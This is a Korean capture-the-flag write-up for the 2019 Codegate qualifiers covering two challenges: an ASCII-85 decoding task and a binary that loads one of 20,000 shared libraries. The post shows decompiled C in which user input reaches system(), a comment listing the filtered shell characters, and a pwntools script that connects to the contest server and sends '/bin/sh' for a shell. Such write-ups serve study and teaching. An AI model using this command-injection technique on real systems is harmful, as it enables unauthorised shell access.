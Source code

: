 ```yaml
---
layout: post
title: 2019 Codegate Quals Writeup
author: "Realsung"
comments: true
featured: true
sitemap :
  changefreq : 2019codegatequals
  priority : 1.0
---
```


> 팀명 : 앙진헌띠

> 주니어부 23등



###  MIC check

9P&;gFD,5.BOPCdBl7Q+@V'1dDK?qL 를 디코딩하라고 한다.

ASCII-85 디코딩 해주면 플래그가 나온다.

![](https://user-images.githubusercontent.com/32904385/51801712-cfde7180-2284-11e9-8a03-aca7a9ee978b.png)

**FLAG : Let the hacking begins ~**

<br />

### 20000

nc 와 20000이라는 바이너리와 20000개의 .so파일이 주어진다.

20000 바이너리의 메인함수이다. 메인에서 1~20000까지 입력받는데 이 입력 받은 수의 라이브러리 파일을 불러와서 test 함수를 실행시켜준다. 그리고 쉘을 따면 될 거 같다.

![](https://user-images.githubusercontent.com/32904385/51801713-d1a83500-2284-11e9-9466-0b858c34431d.png)

```c
signed __int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char *v3; // rax
  signed __int64 result; // rax
  void *v5; // rdi
  char *v6; // rax
  int input; // [rsp+Ch] [rbp-94h]
  void (__fastcall *v8)(void *, const char *); // [rsp+10h] [rbp-90h]
  void *handle; // [rsp+18h] [rbp-88h]
  char s; // [rsp+20h] [rbp-80h]
  int v11; // [rsp+80h] [rbp-20h]
  int v12; // [rsp+84h] [rbp-1Ch]
  unsigned __int64 v13; // [rsp+88h] [rbp-18h]

  v13 = __readfsqword(0x28u);
  print_map();
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  memset(&s, 0, 0x60uLL);
  v11 = 0;
  printf("INPUT : ", 0LL, &v12);
  __isoc99_scanf("%d", &input);
  if ( input <= 0 && input > 20000 )
  {
    printf("Invalid Input", &input);
    exit(-1);
  }
  sprintf(&s, "./20000_so/lib_%d.so", input);
  handle = dlopen(&s, 1);
  if ( handle )
  {
    v5 = handle;
    v8 = dlsym(handle, "test");
    if ( v8 )
    {
      v8(v5, "test");
      dlclose(handle);
      result = 0LL;
    }
    else
    {
      v6 = dlerror();
      fprintf(stderr, "Error: %s\n", v6);
      dlclose(handle);
      result = 1LL;
    }
  }
  else
  {
    v3 = dlerror();
    fprintf(stderr, "Error: %s\n", v3);
    result = 1LL;
  }
  return result;
}
```



하지만 문제가 20000개의 lib 파일에서 무슨 파일인지 알 수 없었다. 왜 20000개인지 알 거 같았다. 마지막 수정 일 순으로 정렬해보면 `lib_17394.so` 파일만 수정일이 오전 10시 37분이였다. 다른 .so파일들은 수정일이 오후 10시 33분이였다. 

![](https://user-images.githubusercontent.com/32904385/51801715-d53bbc00-2284-11e9-99be-09c70874a936.png)



```c
signed __int64 test()
{
  char *v0; // rax
  signed __int64 result; // rax
  char *v2; // rax
  void (__fastcall *v3)(char *, char *); // [rsp+0h] [rbp-B0h]
  void (__fastcall *v4)(char *); // [rsp+8h] [rbp-A8h]
  void *handle; // [rsp+10h] [rbp-A0h]
  void *v6; // [rsp+18h] [rbp-98h]
  char buf; // [rsp+20h] [rbp-90h]
  __int16 v8; // [rsp+50h] [rbp-60h]
  char s; // [rsp+60h] [rbp-50h]
  __int16 v10; // [rsp+90h] [rbp-20h]
  unsigned __int64 v11; // [rsp+98h] [rbp-18h]

  v11 = __readfsqword(0x28u);
  memset(&buf, 0, 0x30uLL);
  v8 = 0;
  memset(&s, 0, 0x30uLL);
  v10 = 0;
  handle = dlopen("./20000_so/lib_4323.so", 1);
  if ( handle )
  {
    v3 = dlsym(handle, "filter1");
    v6 = dlopen("./20000_so/lib_11804.so", 1);
    if ( v6 )
    {
      v4 = dlsym(v6, "filter2");
      puts("This is lib_17394 file.");
      puts("How do you find vulnerable file?");
      read(0, &buf, 0x32uLL);
      v3(&buf, &buf);
      v4(&buf);
      sprintf(&s, "%s 2 > /dev/null", &buf);
      system(&s);
      dlclose(handle);
      dlclose(v6);
      result = 0LL;
    }
    else
    {
      v2 = dlerror();
      fprintf(stderr, "Error: %s\n", v2);
      result = 0xFFFFFFFFLL;
    }
  }
  else
  {
    v0 = dlerror();
    fprintf(stderr, "Error: %s\n", v0);
    result = 0xFFFFFFFFLL;
  }
  return result;
}
```

`lib_17394.so` 를 보면 `lib_4323.so` 라이브러리의 fillter1을 실행시키고 `lib_11804.so` 라이브러리의 fillter2를 실행시켜준다. 그러면 이제 fillter만 우회해서 쉘을 따주면 될 거 같다. system(&s) 를 실행시켜주니까 저기에 쉘을 넣어주면 될 거 같다.

![](https://user-images.githubusercontent.com/32904385/51801716-d66ce900-2284-11e9-848d-62289a7de43f.png)

Exploit Code

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *
from ctypes import *

# testlib = CDLL('./c1e3a33d8932a4a61b0e0e0e49d6c9bc/20000_so/lib_17394.so')
"""
Filltering
; * | & $ ` > < v m p d f g l
r bash
"""
#p = process('././c1e3a33d8932a4a61b0e0e0e49d6c9bc/20000')
p = remote('110.10.147.106',15959)
print p.sendlineafter('INPUT :','17394')
print p.sendlineafter('How do you find vulnerable file?','/bin/sh')
p.interactive()
```



![](https://user-images.githubusercontent.com/32904385/51801718-d79e1600-2284-11e9-8e04-7fdd0e9f8c27.png)

**FLAG : Are_y0u_A_h@cker_in_real-word?**


